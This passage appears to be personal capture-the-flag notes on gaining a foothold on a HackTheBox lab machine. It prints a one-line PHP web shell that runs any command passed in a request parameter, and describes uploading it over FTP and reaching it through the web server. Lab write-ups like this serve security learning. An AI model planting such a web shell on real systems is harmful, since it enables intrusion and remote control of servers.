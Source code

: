 # Getting a Shell

### Upload a shell to ftp and access the file on http://dev.sneakycorp.htb/file
content of shell.php
```php
$ cat shell.php 
<?php system($_REQUEST["eris"]); ?>
```

![[Pasted image 20211214003013.png]]

![[Pasted image 20211214003023.png]]


ftp has a cronjob to delete the file we upload after 1 minute
![[Pasted image 20211214003306.png]]

![[Pasted image 20211214003321.png]]